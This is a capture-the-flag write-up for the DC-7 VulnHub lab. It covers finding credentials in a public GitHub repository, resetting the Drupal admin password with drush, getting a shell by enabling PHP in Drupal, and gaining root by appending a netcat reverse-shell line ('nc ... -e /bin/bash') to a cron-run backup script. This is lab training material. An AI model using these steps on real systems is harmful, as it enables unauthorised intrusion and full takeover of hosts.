 <h1>DC-7 Write-up</h1>

<h2>NMAP</h2>

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))

```
**PORT 80**

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-7/images/username.png)

Found a Github repo : with user **"DC7User"** :

https://github.com/Dc7User/staffdb

Found password from config.php 
* https://github.com/Dc7User/staffdb/blob/master/config.php

```
servername = "localhost"
username = "dc7user"
password = "MdR3xOgB7#dW"
dbname = "Staff"
```

Login SSH :

```
Username : dc7user 
password : MdR3xOgB7#dW
```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-7/images/dc7user.png)

I Found a mail in home directory of dc7user, root is executing /opt/scripts/backup.sh and dc7user can't edit that file so i checked who can then i found that www-data can so first i have to become www-data.

I checked how to change drupal password then i found this command : 

**NOTE : YOU MUST BE IN /var/www/html BEFORE EXECUTING THIS COMMAND**

```
cd /var/www/html
drush user-password admin --password=vanshal
```

<h4>Taking Shell as www-data : </h4>

Drupal 8 removed php from its core so to install it :

1 ) Go to "Extend > Install New Module" 

2 ) download this File in your box : https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz

3 ) Select this file from "Install New module" Option 

4 ) Enable php from "Extend" 

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-7/images/phpdrupal.png)

5 ) Home >Content > Add Content  > Basic Page 

6 ) Paste your php shellcode :

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-7/images/drupalupload.png  )

7 ) Select Text Format as php

8 ) Start Listner 

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-7/images/wwwshell.png)

9 ) Click on Save Button

<h3>PRIVILEGE ESCALATION:</h3>

Add rev shell code in /opt/scripts/backups.sh:

ie : nc 192.168.56.1 1337 -e /bin/bash

Start Listner and wait for the shell 

 ![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-7/images/rootshell.png)
 
 <h2>FLAG</h2>
 
 ![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-7/images/Flag.png)
